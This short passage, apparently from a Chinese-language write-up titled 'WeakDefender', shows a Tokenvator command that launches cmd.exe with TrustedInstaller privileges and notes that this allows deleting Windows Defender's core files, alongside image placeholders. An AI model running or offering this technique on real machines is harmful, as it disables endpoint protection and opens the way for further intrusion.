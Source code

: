 ```
.\Tokenvator.exe
GetTrustedinstaller /Command:c:\windows\system32\cmd.exe
```

![image-20230624204822742](WeakDefender/image-20230624204822742.png)



提升至Trustedinstaller权限后即可删除windowsdefender的核心文件

![image-20230624205722520](WeakDefender/image-20230624205722520.png)
